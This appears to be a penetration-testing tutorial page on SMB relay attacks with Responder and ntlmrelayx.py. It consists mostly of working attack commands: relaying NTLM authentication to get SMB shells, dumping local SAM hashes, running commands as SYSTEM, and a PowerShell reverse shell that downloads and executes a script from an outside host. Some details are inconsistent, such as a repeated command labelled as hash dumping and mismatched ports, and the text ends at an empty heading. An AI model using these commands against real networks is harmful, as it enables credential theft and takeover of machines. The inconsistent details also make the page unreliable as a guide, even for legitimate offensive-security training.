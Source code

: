 **Setting Up Responder for the Attack**

To perform an SMB relay attack using Responder, we need to edit the Responder.conf file and disable SMB and HTTP so that we only listen for requests but not respond.

```shell
responder -I eth0 -v
```

> [!NOTE] **SMB-Relay Attack Using Responder + ntlmrelayx.py**
> If the account that makes a request is a regular domain user, then we can drop into a SMB shell similar to using smbexec.py. However, if the account has at least local administrative privileges on the target machine, we can dump the SAM file to get local password hashes, launch a SYSTEM shell, pivot to other devices, and much more!

## Getting an SMB Shell as a Standard User

```shell
ntlmrelayx.py -tf SMB_IPs.txt -smb2support -i
```

This command will relay all requests from any IP in the list to all IPs in the list. If an account that gets relayed from one machine to another has permissions to access a share folder, then because we used the **-i** switch, this will create a bind port on the victim on port 11000 that can be accessed using netcat.

**Connect to share**

```shell
nc -nv 127.0.0.1 11001
```

## Dumping the Local SAM Hashes by Relaying a Local Admin User’s Hash

This is the default

```shell
ntlmrelayx.py -tf SMB_IPs.txt -smb2support -i
```

## Command Execution as SYSTEM by Relaying a Local Admin User’s Hash

```shell
ntlmrelayx.py -tf SMB_IPs.txt -smb2support -c 'whoami'
```

**Reverse shell**

```shell
ntlmrelayx.py -tf SMB_IPs.txt -smb2support -c "powershell.exe -c iex(new-object net.webclient).downloadstring('http://172.16.1.30:8000/Invoke-PowerShellTcp443.ps1')" 
```

## Download and Execute an EXE as SYSTEM by Relaying a Local Admin User’s Hash
